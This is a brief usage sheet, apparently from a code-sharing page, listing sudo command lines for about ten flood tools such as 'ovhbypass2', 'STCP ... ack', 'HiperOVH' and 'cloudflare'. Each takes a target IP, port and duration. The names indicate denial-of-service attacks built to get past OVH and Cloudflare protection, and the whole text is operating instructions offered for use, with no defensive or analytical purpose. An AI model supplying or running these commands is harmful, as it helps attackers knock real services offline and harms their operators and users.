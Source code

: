 How to use :

SSA : sudo ./ssa (ip)

ETC : sudo ./etc (ip) (port)

OVH : sudo ./ovh %ip %port 9999 0 %time

OVH-V2 : sudo ./ovhbypass2 %ip %port %time udp

STD : sudo ./STD-NOSPOOF %ip %port

STCP : sudo ./STCP %ip %port 10 -1 %time ack

HEX : sudo ./HEX OVH %ip %port 300

NUKE-BYPASS : sudo ./HiperOVH %ip %port

CLOUDFLARE : sudo ./cloudflare %ip 10 -1 300

ETHERA : sudo ./ETHERA %ip %port
